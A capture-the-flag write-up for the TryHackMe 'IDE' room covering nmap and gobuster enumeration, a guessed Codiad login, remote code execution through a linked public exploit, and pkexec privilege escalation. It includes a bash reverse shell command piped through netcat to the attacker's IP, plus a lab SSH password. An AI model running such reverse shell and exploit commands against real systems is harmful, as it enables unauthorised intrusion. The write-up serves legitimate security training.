


Hello everyone,

Today we are going to solve IDE room from tryhackme. we will see about FTP enumration,codiac RCE and privilege escalation with pkexec SUID.


<!--truncate-->

## Nmap results

```bash
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.9.4.105
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Codiad 2.8.4
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.38 seconds
------------------------------------------------------------
```

## Gobuster results

```bash

┌──(kali㉿kali)-[~/Documents/THM/IDE]
└─$ gobuster dir -u http://10.10.86.172 -w /usr/share/wordlists/dirb/common.txt -t 30 2>/dev/null
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.86.172
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/19 12:35:23 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 10918]
/server-status        (Status: 403) [Size: 277]
===============================================================
2021/10/19 12:35:53 Finished
===============================================================
```

--> Got this in File named `-` in FTP

```bash
Hey john,
I have reset the password as you have asked. Please use the default password to login.
Also, please take care of the image file ;)
- drac.

```

--> I found the login page at the port `62337`

## Gobuster results for port 62337

```bash
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.86.172:62337
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/10/19 12:44:19 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 280]
/.htpasswd            (Status: 403) [Size: 280]
/.htaccess            (Status: 403) [Size: 280]
/components           (Status: 301) [Size: 326] [--> http://10.10.86.172:62337/components/]
/data                 (Status: 301) [Size: 320] [--> http://10.10.86.172:62337/data/]
/favicon.ico          (Status: 200) [Size: 1150]
/index.php            (Status: 200) [Size: 5239]
/js                   (Status: 301) [Size: 318] [--> http://10.10.86.172:62337/js/]
/languages            (Status: 301) [Size: 325] [--> http://10.10.86.172:62337/languages/]
/lib                  (Status: 301) [Size: 319] [--> http://10.10.86.172:62337/lib/]
/plugins              (Status: 301) [Size: 323] [--> http://10.10.86.172:62337/plugins/]
/server-status        (Status: 403) [Size: 280]
/themes               (Status: 301) [Size: 322] [--> http://10.10.86.172:62337/themes/]
===============================================================
2021/10/19 12:45:04 Finished
===============================================================
```

## Enumeration

--> i tried default credentials but it didn't worked then i tried `john:password` and i got logged in !

--> I also found one exploit for RCE in codiac `2.8.4`

- https://www.exploit-db.com/exploits/49705

--> I used this command

```bash
python exploit.py http://10.10.86.172:62337/ john password 10.9.4.105 4444 linux
echo 'bash -c "bash -i >/dev/tcp/10.9.4.105/4445 0>&1 2>&1"' | nc -lnvp 4444
nc -lnvp 4445
```

--> And i got the reverse shell !

## Privesc

After that i searched for the password for user `drac` but i didn't found anything. but after some time i found one command in `.bash_history`



--> it might be a ssh password because mysql is not running on this machine!

And i tried this password for drac and got the SSH shell !

`drac:Th3dRaCULa1sR3aL`

--> I found some SUID files and in that files i found `/usr/bin/pkexec` vulnertable to configuration files

Then i followed this article and got the root shell :

https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe



---

## Resources

- https://github.com/WangYihang/Codiad-Remote-Code-Execute-Exploit
- https://www.youtube.com/watch?v=RL0Pkoge-xI
- https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe
